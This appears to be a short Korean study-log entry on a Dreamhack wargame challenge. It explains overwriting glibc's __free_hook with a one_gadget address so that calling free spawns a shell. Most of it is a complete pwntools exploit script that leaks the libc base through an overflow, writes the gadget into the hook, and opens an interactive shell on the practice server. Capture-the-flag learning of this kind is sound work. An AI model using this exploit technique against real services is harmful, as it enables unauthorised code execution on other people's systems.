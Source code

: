 <p align="center">
	<a href="/assets/images/TIL220804/Untitled.png">
		<img src="/assets/images/TIL220804/Untitled.png" width="600">
    </a>
</p>

이 one_gadget을 활용하여 `__free_hook`**을 one_gadget으로 overwrite**함으로써 `free`**가 실행되면 바로 shell을 실행**하도록 exploit할 수도 있다

이 방식은 `malloc`, `free` 등의 함수들의 argument의 길이가 제한되어 있는 등의 제약 사항으로 인해 **argument로** `"/bin/sh"`**를 넣기 힘들 때** 유용하다.

```python
from pwn import *

p = remote("host3.dreamhack.games", 18827)
e = ELF("./fho")
libc = ELF("./libc-2.27.so")

# [1] Leak libc base
buf = b"A"*0x48
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
libc_base = u64(p.recvline()[:-1].ljust(8, b"\x00")) - (libc.symbols["__libc_start_main"] + 231)
system = libc.symbols["system"] + libc_base
free_hook = libc.symbols["__free_hook"] + libc_base
og = libc_base + 0x4f432

# [2] Overwrite 'free_hook' with 'system'
p.recvuntil("To write: ")
p.sendline(str(free_hook))
p.recvuntil("With: ")
p.sendline(str(og))

# [3] Exploit
p.recvuntil("To free: ")
p.sendline(str(12345)) # doesn't matter

p.interactive()
```
